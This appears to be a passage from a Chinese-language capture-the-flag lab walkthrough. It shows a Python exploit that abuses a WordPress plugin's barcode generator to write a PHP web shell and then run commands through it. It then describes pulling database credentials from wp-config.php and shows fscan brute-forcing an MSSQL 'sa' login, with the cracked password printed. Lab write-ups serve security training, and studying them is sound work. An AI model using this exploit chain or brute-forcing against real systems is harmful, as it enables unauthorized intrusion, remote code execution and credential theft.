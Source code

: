 ```python  
import requests  
  
# This is a magic string that when treated as pixels and compressed using the png  
# algorithm, will cause &lt;?=$_GET[1]($_POST[2]);?&gt; to be written to the png file  
payload = &#39;2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50&#39;  
  
def encode_character_code(c: int):  
    return &#39;{:08b}&#39;.format(c).replace(&#39;0&#39;, &#39;x&#39;)  
  
text = &#39;&#39;.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]  
  
destination_url = &#39;http://172.22.2.18/&#39;  
cmd = &#39;ls&#39;  
  
# With 1/11 scale, &#39;1&#39;s will be encoded as single white pixels, &#39;x&#39;s as single black pixels.  
requests.get(  
    f&#34;{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&amp;sizefactor=.090909090909&amp;size=1&amp;filepath=/var/www/html/webshell.php&#34;  
)  
  
# We have uploaded a webshell - now let&#39;s use it to execute a command.  
print(requests.post(  
    f&#34;{destination_url}webshell.php?1=system&#34;, data={&#34;2&#34;: cmd}  
).content.decode(&#39;ascii&#39;, &#39;ignore&#39;))  
```  
蚁剑连接  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201421091.png)
`wp-config.php`中找到数据库账号和密码进行连接  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201423118.png)
找到第二个`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201423562.png)
## flag03  
还存在一个密码表,导出进行爆破其他主机的服务   
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201425076.png)
通过`fscan`扫描结果，得知还有几台主机，其中`16`存在`mssql`  
```  
(icmp) Target 172.22.2.18     is alive  
(icmp) Target 172.22.2.16     is alive  
(icmp) Target 172.22.2.3      is alive  
(icmp) Target 172.22.2.7      is alive  
(icmp) Target 172.22.2.34     is alive  
```  
这里重点关注一下，利用`fscan`进行爆破一下  
```bash  
[redis@centos-web01 tmp]$ ./fscan -h 172.22.2.16 -m mssql -u sa -pwdf password.txt  
&lt;/fscan -h 172.22.2.16 -m mssql -u sa -pwdf password.txt                       
  
   ___                              _      
  / _ \     ___  ___ _ __ __ _  ___| | __   
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;      
\____/     |___/\___|_|  \__,_|\___|_|\_\     
                     fscan version: 1.8.3  
-m  mssql  start scan the port: 1433  
start infoscan  
172.22.2.16:1433 open  
[*] alive ports len is: 1  
start vulscan  
[&#43;] mssql 172.22.2.16:1433:sa ElGNkOiC  
```